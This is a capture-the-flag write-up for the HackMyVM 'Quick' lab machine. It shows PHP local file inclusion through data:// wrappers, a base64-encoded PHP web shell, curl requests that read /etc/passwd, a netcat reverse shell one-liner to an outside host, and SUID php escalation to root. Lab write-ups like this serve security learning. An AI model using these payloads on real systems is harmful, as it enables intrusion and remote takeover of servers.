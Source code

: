 ```yaml
---
title: HackMyVM - Quick
date: 2024-01-31
tags: LFI LFI2RCE PHP-LFI
author: raylex
---
```

## Enumeration
- - -
### Ports
Target has only one port open - 80 (HTTP)
I discovered LFI in the endpont
```
http://192.168.56.101/index.php?page=
```
since i know it's PHP, i used some PHP wrappers from [File Inclusion/Path traversal - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#data)  
I'll get the `/etc/passwd` file using this payload:
```
data://text/plain,<?php echo base64_encode(file_get_contents("/etc/passwd")); ?>
```
## Foothold
- - -
I see there's a user `andrew` on the target and i can read their home directory which contains the user flag.  
I'll use one of the payloads to get RCE and retrieve user flag
Payload:
```
data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
```
Request:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="cat+/home/andrew/user.txt""
```
The content of the base64 is
```
<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```
Result:
```
    <main>


                                 _________
                          _.--""'-----,   `"--.._
                       .-''   _/_      ; .'"----,`-,
                     .'      :___:     ; :      ;;`.`.
                    .      _.- _.-    .' :      ::  `..
                 __;..----------------' :: ___  ::   ;;
            .--"". '           ___.....`:=(___)-' :--'`.
          .'   .'         .--''__       :       ==:    ;
      .--/    /        .'.''     ``-,   :         :   '`-.
   ."', :    /       .'-`\\       .--.\ :         :  ,   _\
  ;   ; |   ;       /:'  ;;      /__  \\:         :  :  /_\\
  |\_/  |   |      / \__//      /"--\\ \:         :  : ;|`\|
  : "  /\__/\____//   """      /     \\ :         :  : :|'||
["""""""""--------........._  /      || ;      __.:--' :|//|
 "------....______         ].'|      // |--"""'__...-'`\ \//
   `|HMV{flag-flag}|.--'": :  \    //  |---"""      \__\_/
     """""""""'            \ \  \_.//  /
       `---'                \ \_     _'
                             `--`---'
```

## Privilege Escalation 
- - -
I got reverse shell as `www-data` using this payload:
```
curl --path-as-is http://192.168.56.101/index.php?page="data:text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd="rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.56.1%203371%20%3E%2Ftmp%2Ff""
```
Stabilize the shell.  
Looking at he `SUID` binaries i see an unusual binary `/usr/bin/php7.0` according to [php | GTFOBins](https://gtfobins.github.io/gtfobins/php/) i can spawn a shell as root:
```
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```
I have shell as root, so i'll retieve the root flag
```
# cat /root/root.txt


            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM
 .-------------`------------'-'-----|-----.
(___HMV{root-flag}__)
  MMMMMM                            MMMMMM
  `MMMM'                            `MMMM'
```

